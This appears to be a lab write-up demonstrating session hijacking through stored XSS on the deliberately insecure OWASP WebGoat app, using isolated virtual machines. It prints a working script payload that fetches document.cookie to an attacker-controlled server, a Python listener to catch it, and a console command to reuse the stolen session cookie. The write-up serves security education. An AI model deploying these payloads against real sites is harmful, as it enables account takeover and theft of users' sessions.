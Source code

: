 # Session Hijack using XSS

## Introduction
A **Session Hijack attack** exploits the web session control mechanism,tipically managed by a session cookie.
This **session cookie**, generated by the web server and sent to the client browser following successful authentication, is a variable-length string that identifies the session.

**Session Hijacking** involves compromising this session cookie, either by stealing or predicting a valid value, to gain **unauthorized** access to the Web Server.
There are several common methods for compromising a session cookie, including:
* Predictable session cookie
* Session Sniffing (e.g. Man-in-the-middle, Man-in-the-browser)
* Client-side attacks (e.g. XSS, malicious JavaScript Codes, Trojans)

In this report, we will demonstrate how to perform **Session Hijack using Cross-Site Scripting (XSS)**.

## What is XSS?
**Cross-Site Scripting (XSS) attacks** are a type of injection where malicious scripts are injected into otherwise benign and trusted websites. These attacks exploit flaws in web applications that use user input in their output without proper validation or encoding.

An attacker can use XSS to send malicious scripts to unsuspecting users. The user's browser, having no way to determine that the script should not be trusted, executes it, allowing the attacker to access cookies or other sensitive information retained by the browser.

XSS attacks are generally categorized into two types: reflected and stored.

* **Reflected XSS Attacks**: These attacks involve scripts that are reflected off a web server, such as in an error message or search result, where the server includes part or all of the input sent to it in the response. Reflected attacks are delivered to victims via another route, such as in an e-mail message, or on some other website. When a user is tricked into clicking on a malicious link, submitting a specially crafted form, or even just browsing to a malicious site, the injected code travels to the vulnerable website, which reflects the attack back to the user’s browser. The browser then executes the code because it came from a “trusted” server.

* **Stored XSS Attacks**: These attacks involve scripts that are permanently stored on the target server, such as in a database, message forum, visitor log, or comment field. The victim retrieves the malicious script from the server when requesting the stored information.

In the following experiment, we will use a **stored XSS attack** to steal a session cookie.

## Experiment
To demonstrate the simplicity and danger of exploiting a website vulnerable to XSS, we will simulate a stored XSS attack on a vulnerable website to obtain the session cookie of an unsuspecting user.

#### Environment
To simulate the attack, we will use:

* [VMware Workstation Player](https://www.vmware.com/content/vmware/vmware-published-sites/us/products/workstation-player/workstation-player-evaluation.html.html.html): A platform for running virtual machine
* [OWASP WebGoat](https://github.com/WebGoat/WebGoat): A deliberately insecure web application designed to teach web application security lessons
* [Python3](https://www.python.org/about/gettingstarted/): To generate an attacker-controlled HTTP server


We will use three virtual machines:

1. [Kali Linux](https://www.kali.org/get-kali/#kali-platforms) as attacker machine with Python3 installed
2. [Ubuntu](https://ubuntu.com/download/desktop) as Web Server with OWASP WebGoat installed.
3. [Windows](https://www.microsoft.com/en-us/software-download/windows10) as victim machine


#### Network Setup
The virtual machines have the following IP addresses and are inside a [NAT](https://docs.vmware.com/en/VMware-Workstation-Player-for-Windows/17.0/com.vmware.player.win.using.doc/GUID-37EA4A9D-DE43-4159-8982-2DFD9D5959AD.html) network:

| O.S. | IP addresss | Subnet Mask|
| ------ | ----------- | ---- |
| Kali   | 192.168.28.133 | 255.255.255.0 |
| Ubuntu   | 192.168.28.132 | 255.255.255.0 |
| Windows   | 192.168.28.134 | 255.255.255.0 |

### Phase 1: Ping
The first phase involves ensuring network connectivity between the attacker, the web server, and the victim machine. This step is critical because successful communication is required for the attack to proceed. The ping command is used to verify that each machine can reach the others over the network.

On Kali Linux:
```bash
$ ping -c4 192.168.28.132
```

On Windows:
```powershell
> ping 192.168.28.132
```

### Phase 2: Run WebGoat
Running WebGoat involves setting up a deliberately insecure web application on the Ubuntu server. The command:
```bash
$ sudo docker run --name webgoat -it -p 192.168.28.132:8080:8080 webgoat/webgoat
```
pulls the WebGoat Docker image and runs it, exposing it on port 8080. This setup creates a controlled environment where security vulnerabilities, such as XSS, can be safely explored and demonstrated.

### Phase 3: Attacker Account
To begin the attack, the attacker needs an account on the WebGoat application. Using Kali Linux, the attacker opens a browser and navigates to:
```url
http://192.168.28.132:8080/WebGoat/
```
![Attacker Login](images/attacker-login.png) 
The attacker registers a new account by clicking the register button and providing the necessary details. This account will be used to identify and exploit vulnerabilities in the web application.
![Attacker Register](images/attacker-register.png) 

### Phase 4: Identify XSS Vulnerability
The next step is to identify a vulnerability in the WebGoat application. By navigating to the "Cross Site Scripting (stored)" section under "Injection," the attacker accesses a simulated forum where users can post comments.
![xss page](images/xss-page.PNG)
To test for vulnerabilities, the attacker posts a comment with HTML tags: 
```html
<strong> Hello World </strong>
```
![xss test](images/xss-test.PNG)
If the comment is displayed with formatting, it indicates that the application does not properly sanitize input, confirming the presence of an XSS vulnerability.

### Phase 5: Payload Injection
Once the XSS vulnerability is identified, the attacker injects a malicious payload to steal session cookies. The payload:
```javascript
<script>fetch("http://192.168.28.133:9000/?cookie=" + document.cookie)</script>
```
![xss payload](images/attacker-payload.PNG)
is crafted to send the session cookie to the attacker's server. 

This script, when executed by the victim's browser, will fetch all the cookies and send them to the specified URL (the attacker's server).

### Phase 6: Attacker Controlled Server
To receive the stolen cookies, the attacker sets up an HTTP server on Kali Linux. Using the command 
```bash
python3 -m http.server --bind 192.168.28.133 9000
```
![attacker server](images/attacker-server.PNG)
the attacker creates a simple HTTPS server listening on port 9000. This server will capture any incoming HTTP requests, including those generated by the malicious payload.

### Phase 7: Target Access Comment
An unsuspecting user on the Windows VM visits the WebGoat application and views the forum with the injected comment. When the user's browser renders the comment, the embedded script executes, sending the session cookie to the attacker's server. The attacker observes the incoming request on their HTTP server, capturing the session cookie.
![cookie](images/cookie.PNG)


### Phase 8: Use Session Cookie
With the session cookie in hand, the attacker can impersonate the victim. The attacker opens the browser's debugger console (e.g., in Firefox) and uses the command 
```javascript
document.cookie="JSESSIONID=VTEZoDF-sff80Wp4eXg4GVI_yb8-kn5yPlZQ-IvJ"
```
to set their session cookie to the stolen value. This action allows the attacker to assume the victim's session, gaining unauthorized access to the web application with the same privileges as the victim.
![impersonate](images/impersonate.PNG)

## Conclusion
The experiment illustrates the ease with which a stored XSS attack can be used to perform session hijacking, revealing significant vulnerabilities in web applications that fail to properly sanitize user inputs. By injecting a malicious script into a vulnerable web application, an attacker can steal session cookies from unsuspecting users, allowing the attacker to impersonate the victim and gain unauthorized access to sensitive information and functionalities within the web application.


## References and Inspirations
* Exploiting XSS-stealing cookies, https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e
* Cross Site Scripting, https://owasp.org/www-community/attacks/xss/
* Cross-Site Scripting Explained and Demostrated, https://youtu.be/PPzn4K2ZjfY?si=7MS2tBcXuaxEAoRR
* Session Hijacking Attack, https://owasp.org/www-community/attacks/Session_hijacking_attack